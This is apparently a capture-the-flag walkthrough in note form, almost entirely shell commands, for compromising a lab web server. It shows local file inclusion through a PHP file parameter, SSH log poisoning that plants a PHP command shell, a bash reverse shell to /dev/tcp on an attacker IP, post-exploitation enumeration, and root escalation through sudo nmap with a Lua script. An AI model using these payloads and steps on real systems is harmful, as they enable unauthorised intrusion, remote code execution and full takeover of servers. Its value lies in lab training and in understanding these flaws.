



## init
```bash
arp-scan -I wlo1 --localnet
ping -c 1 192.168.1.11

 nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 192.168.1.11 -oG targeted

 whatweb http://192.168.1.11
 dirb http://192.168.1.11 /usr/share/wordlists/dirb/common.txt

http://192.168.1.11/console/file.php?file=/var/log/auth.log
http://192.168.1.11/console/file.php?file=php://filter/convert.base64-encode/resource=file.php # to view  # wrappers

echo "PD9waHAKICAgJGZpbGUgPSAkX0dFVFsnZmlsZSddOwogICBpZihpc3NldCgkZmlsZSkpCiAgIHsKICAgICAgIGluY2x1ZGUoIiRmaWxlIik7CiAgIH0KICAgZWxzZQogICB7CiAgICAgICBpbmNsdWRlKCJpbmRleC5waHAiKTsKICAgfQogICA/Pgo=" | base64 -d; echo

http://192.168.1.11/console/file.php?file=/var/log/apache2/access.log # for apache
http://192.168.1.11/console/file.php?file=/var/log/auth.log # for ssh

ssh edibauer@192.168.1.11 # to create a log # log poisoning
<>
curl "http://192.168.1.11/console/file.php?file=/var/log/auth.log"

# another options
{ echo '<?php system("whoami"); ?>'; sleep 1; } | nc 192.168.1.15 22
# use custom_ssh.py file too

# inject cdm command
{ echo '<?php system($_GET["cmd"]); ?>'; sleep 1; } | nc 192.168.1.15 22
# or using custom_ssh.py file

http://192.168.1.15/console/file.php?file=/var/log/auth.log&cmd=ls -l /

# Reverse shell
pwcat-cs -lp 443
<>
192.168.1.15/console/file.php?file=/var/log/auth.log&cmd=bash -c "bash -i >&/dev/tcp/192.168.1.12/443 0>&1"
192.168.1.15/console/file.php?file=/var/log/auth.log&cmd=bash -c "bash -i >%26/dev/tcp/192.168.1.12/443 0>%261" # url encoded

# for not using pwncat
ctrl + z # to exit
stty raw -echo; fg
reset xterm
export TERM=xterm # to ctrl + l
export SHELL=bash

# resolution of nano
stty rows 44 columns 184

cd /home
find . - ls 2>/dev/null

id 
uid=33(www-data) gid=33(www-data) groups=33(www-data) #ans

# SUID privileges
find / -perm -4000 2>/dev/null

find / -user www-data 2>/dev/null
find / -user www-data 2>/dev/null | grep -v "/proc"
find / -writable 2>/dev/null 
find / -writable 2>/dev/null | grep -vE "/proc|/lib"
find / -writable 2>/dev/null | grep -vE "/proc|/lib|/dev|/run" 
find / -writable 2>/dev/null | grep -vE "/proc|/lib|/dev|/run|/sys" 

# ans
/tmp
/etc/apache2/apache2.conf # taget
/var/www/html
/var/tmp
/var/lock
/var/cache/apache2/mod_cache_disk

ls -l /etc/apache2/apache2.conf
# ans
-rwxrwxrwx 1 root root 7224 Mar 13  2020 /etc/apache2/apache2.conf # root and other can write and exec file

# change users to apache2

```



```bash
ls -l /home # to view users

# restart machine
nc -nlvp 444
http://192.168.1.15/console/file.php?file=/var/log/auth.log&cmd=bash -c "bash -i >%26/dev/tcp/192.168.1.12/444 0>%261"
whoami # mahakal

script /dev/null -c bash
ctrl + z
stty raw -echo; fg
reset xter
export TERM=xterm
export SHELL=bash
stty rows 44 columns 184

cd /home/mahakal
id
sudo -l
(root) NOPASSWD: /usr/bin/nmap # ans

gtfobins.github.io # page to view vulns for caommnad or tools like nmap


```


```bash

# using LUA
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF

bash
whoami
cd /root
cat root.txt

```
